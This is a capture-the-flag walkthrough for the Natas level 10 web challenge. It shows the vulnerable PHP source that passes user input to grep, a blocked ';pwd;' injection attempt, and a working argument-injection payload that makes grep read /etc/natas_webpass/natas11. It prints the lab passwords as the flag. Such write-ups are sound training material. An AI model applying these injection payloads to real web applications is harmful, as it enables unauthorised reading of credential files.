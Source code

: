 # Level 10
## What does the page look like?
```html
$ curl --user natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas10", "pass": "nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu" };</script></head>
<body>
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

## Source code
```html
$ curl -s --user natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/index-source.html | html2text 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/
css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-
ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/
wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></
script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas10", "pass": "<censored>" };</
script></head>
<body>
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing:
 <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

## First approach: double encoding
This time, the user input is checked and some characters are forbidden (`[`, `;`, `|`, `&` and `]`). Also notice that no method (`POST` or `GET`) is specified for the form. Hence, the default method will be `GET`.

~~~~
$ curl -s -d "needle=;pwd;&submit=Search" --user natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ | html2text 

****** natas10 ******
For security reasons, we now filter on certain characters

Find words containing: [needle              ][Search]

Output:
Input contains an illegal character!
View_sourcecode
~~~~

As only a limited number of characters are banned, we can still encode our payload.
~~~~
http://natas10.natas.labs.overthewire.org/?needle=%253Bpwd%253B&submit=Search
~~~~

However, this returns no result. I tried several encoding injections but none of them returned the result I was expecting for a reason that I could not understand. The regular expression on the server may be different and may actually include more characters.

## Different approach
Let's try a different approach. Back to the source code, we know the program is executing the following command:
~~~~
passthru("grep -i $key dictionary.txt")
~~~~
If we pass several files to the grep command, it will return matches in all files (i.e. `grep sthg a.txt b.txt` will look in both `a.txt` and `b.txt` files). Let's take advantage of that to search in `/etc/natas_webpass/natas11` as well:

~~~~
passthru("grep -i anything /etc/natas_webpass/natas11 dictionary.txt")
~~~~

Let's try with `a`:
```html
$ curl -s -d "needle=a /etc/natas_webpass/natas11&submit=Search" --user natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ | head -n 30
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas10", "pass": "nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu" };</script></head>
<body>
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
dictionary.txt:Americanism
dictionary.txt:Americanism's
dictionary.txt:Americanisms
```

OK, the password does not contain `a`. Let's try `b`, no luck either. Maybe `c`?
```html
$ curl -s -d "needle=c /etc/natas_webpass/natas11&submit=Search" --user natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ | head -n 30
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas10", "pass": "nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu" };</script></head>
<body>
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:American
dictionary.txt:Americanism
dictionary.txt:Americanism's
dictionary.txt:Americanisms
dictionary.txt:Americans
```

# Flag
~~~~
natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
~~~~

